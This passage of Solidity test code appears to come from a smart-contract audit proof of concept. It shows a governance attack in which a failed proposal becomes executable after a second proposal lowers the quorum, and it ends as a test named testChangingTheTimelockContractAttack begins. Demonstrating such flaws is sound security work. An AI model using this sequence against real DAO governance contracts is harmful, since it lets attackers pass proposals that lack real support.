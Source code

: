 ```Solidity
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote
        hevm.startPrank(dead);
        governor.castVote(pid1, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.stopPrank();

        // execute
        hevm.startPrank(admin);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        hevm.expectRevert(abi.encodePacked("Governor: proposal not successful"));
        governor.execute(t1, v1, c1, keccak256(bytes(d1)), MAINNET);
        hevm.stopPrank();

        // The second proposal which aims to change the acceptance quorum

        hevm.startPrank(beef);
        uint256 previousQuorum = governor.quorumNumerator();
        console2.log("Previous Quorum: ", previousQuorum);

        (address[] memory t2, uint256[] memory v2, bytes[] memory c2, string memory d2) = craftUpdateQuorumProposal();
        uint pid2 = governor.propose(t2, v2, c2, d2, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote
        hevm.startPrank(beef);
        governor.castVote(pid2, 1);
        hevm.stopPrank();

        hevm.startPrank(dead);
        governor.castVote(pid2, 1);
        hevm.stopPrank();

        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period

        // execute
        hevm.startPrank(beef);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        governor.execute(t2, v2, c2, keccak256(bytes(d2)), MAINNET);
        hevm.stopPrank();

        uint currentQuorum = governor.quorumNumerator();

        console2.log("Current Quorum: ", currentQuorum);

        // Finally, the first proposal which didn't executed at first, now it is executed successfully!

        hevm.startPrank(dead);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        governor.execute(t1, v1, c1, keccak256(bytes(d1)), MAINNET);
        hevm.stopPrank();
    }

    function testChangingTheTimelockContractAttack() public {
        createVeAlcx(admin, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef, 5e22, MAXTIME, false);
```